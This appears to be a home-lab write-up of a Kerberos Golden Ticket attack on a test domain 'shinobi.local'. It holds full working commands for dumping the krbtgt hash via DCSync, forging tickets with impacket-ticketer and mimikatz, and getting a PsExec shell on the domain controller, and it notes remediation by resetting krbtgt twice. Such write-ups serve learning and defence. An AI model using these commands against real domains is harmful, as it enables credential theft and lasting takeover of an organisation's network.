

Golden Ticket
Golden Ticket Attack (Domain Persistence)
- 1.
1. Concept & Objective
Objective: To achieve persistent, long-term administrative access to the shinobi.local domain that remains valid even if the attacker's original compromised account passwords are changed.
Concept: The Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT). Because the Kerberos Key Distribution Center (KDC) service account (krbtgt) is used to sign all TGTs, possessing its NTLM hash or AES keys allows an attacker to forge a TGT for any user (including non-existent ones) with any group memberships (e.g., Domain Admins, Enterprise Admins).
- 2.
2. Prerequisites (Reconnaissance & Credential Theft)
To forge a Golden Ticket, four pieces of information are required:
- FQDN:
shinobi.local
- Domain SID:
S-1-5-21-4057973084-1432748986-1156288224
- Target Username: Any (e.g.,
itachi_anbu01oradministrator)
- krbtgt NTLM Hash: The secret key used to sign the ticket.
{kind=link}

Step 1: Extracting Domain SID & krbtgt Hash
Tool: impacket-secretsdump or mimikatz (DCSync)
Findings: We used secretsdump.py to remotely dump the krbtgt credentials from DC01. The dump provided the Domain SID and the critical NTLM hash: 0ae14ac4a8c66ca241ba7f25162a9ea2.
{kind=link}
- 3.
3. Attack Execution: Forgery (Method A - Kali Linux)
Objective: Forge the golden ticket remotely on the attacker machine and convert it for Windows use. Tools: impacket-ticketer & impacket-ticketConverter
Step 1: Forge the .ccache Ticket
Command:
impacket-ticketer -nthash 0ae14ac4a8c66ca241ba7f25162a9ea2 -domain-sid S-1-5-21-4057973084-1432748986-1156288224 -domain shinobi.local itachi_anbu
Findings: Ticketer successfully created a "skeleton" ticket with the PAC (Privilege Attribute Certificate) signed by the stolen krbtgt hash, saving it as itachi_anbu.ccache.
Step 2: Convert to Windows Format (.kirbi)
Command:
impacket-ticketConverter itachi_anbu.ccache ticket.kirbi
Findings: The Linux-compatible .ccache file was successfully converted to a .kirbi file for use with tools like Mimikatz on the Windows host.
{kind=link}
- 4.
4. Attack Execution: Forgery & Injection (Method B - Mimikatz)
Objective: Forge and inject the ticket directly into the current memory session of the compromised workstation. Tool: mimikatz.exe
Step 1: Direct Memory Forgery (Pass-The-Ticket)
Command:
kerberos::golden /user:itachi_anbu01 /domain:shinobi.local /sid:S-1-5-21-4057973084-1432748986-1156288224 /krbtgt:0ae14ac4a8c66ca241ba7f25162a9ea2 /id:500 /ptt
Findings: Mimikatz generated the PAC, signed it, and successfully submitted the ticket for the current session. The output confirms the ticket has a 10-year lifespan (valid until 2036), providing decade-long persistence.
{kind=link}

Step 2: Loading External Forged Ticket
Objective: Alternatively, import the .kirbi file created in Method A. Command:
kerberos::ptt ticket.kirbi
Findings: Mimikatz successfully imported the external ticket into the local Kerberos cache.
{kind=link}
{kind=link}
- 5.
5. Verification & Impact
Objective: Prove that the forged ticket provides administrative access to the Domain Controller.
Command:
PsExec64.exe \\192.168.56.10 cmd.exe
ipconfig
Findings: Using the forged identity, we successfully executed a remote shell on the Domain Controller via PsExec.
- The remote connection was accepted without providing a password, as the KDC trusted our forged TGT.
- Running
ipconfigon the remote shell verified we were executing commands on the DC (192.168.56.10).
{kind=link}
{kind=link}
- 6.
6. Persistence Summary
This attack represents the final stage of domain takeover. Even if the actual itachi_anbu01 user changes their password, this ticket remains valid because it is encrypted and signed with the krbtgt password. To remediate this, the krbtgt password must be reset twice to flush all forged tickets from the environment.